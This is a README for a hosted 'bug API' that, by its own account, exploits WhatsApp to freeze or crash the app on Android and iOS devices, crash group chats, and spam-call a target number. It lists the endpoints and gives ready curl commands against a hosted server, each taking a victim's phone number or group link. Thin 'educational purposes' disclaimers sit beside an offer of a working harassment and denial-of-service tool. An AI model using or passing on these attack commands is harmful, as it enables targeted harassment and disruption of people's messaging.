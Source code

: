 # X-TECH-API
🚀 X-TECH Bug API
The X-TECH Bug API is a powerful endpoint API developed by X-TECH to exploit vulnerabilities in WhatsApp. This API provides endpoints that can:

🛑 Delay WhatsApp on Android devices.
🌋 Spam Call Users on WhatsApp.
🍎 Crash WhatsApp on iOS devices.
💥 Crash entire WhatsApp group chats.
⚠️ Warning: This API is for educational purposes only. Misuse of this tool may result in serious legal consequences. Use responsibly.

🌟 Features
🔥 Delay Android Devices
🕸️ Spam Call Users
🍏 Crash iOS Devices
💬 Crash Group Chats
📌 Endpoints
1 Delay Android WhatsApp
Description: Delay and crashes WhatsApp on Android devices.
Endpoint:

GET ${api_link}/freezeDroid?target=${number}
Parameters:

Key	Type	Description
target	String	The WhatsApp number to be targeted
2 Spam Call Users
Description: Spam call users on WhatsApp.
Endpoint:

GET ${api_link}/callSpam?target=${number}
Parameters:

Key	Type	Description
target	String	The WhatsApp number to be targeted
3 Crash iOS WhatsApp
Description: Crashes WhatsApp on iOS devices.
Endpoint:

GET ${api_link}/iosCrash?target=${number}
Parameters:

Key	Type	Description
target	String	The WhatsApp number to be targeted
4 Crash Group Chats
Description: Crashes an entire WhatsApp group chat.
Endpoint:

GET ${api_link}/crashGroup?target=${grouplink}
Parameters:

Key	Type	Description
target	String	The WhatsApp group chat link to target.
Setup For Deployment 👇
🎯 Generate Pair Code For Session
X-TECH

⚠️ Disclaimer
Note:
This API is designed strictly for educational and research purposes to highlight vulnerabilities in applications. Any unauthorized use to harm individuals, groups, or organizations is strictly prohibited. Ensure you comply with all applicable laws before using this API.

💻 Example Usage
# Delay Android WhatsApp
curl -X GET "https://xeon-bug-api.onrender.com/freezeDroid?target=1234567890"

# Spam Call User
curl -X GET "https://xeon-bug-api.onrender.com/callSpam?target=1234567890"

# Crash iOS WhatsApp
curl -X GET "https://xeon-bug-api.onrender.com/iosCrash?target=1234567890"

# Crash Group Chat
curl -X GET "https://xeon-bug-api.onrender.com/crashGroup?target=https://chat.whatsapp.com/exampleGroupLink"
👨‍💻 Developed By: Dream Guy X-TECH
Enjoy bugging responsibly! ✨
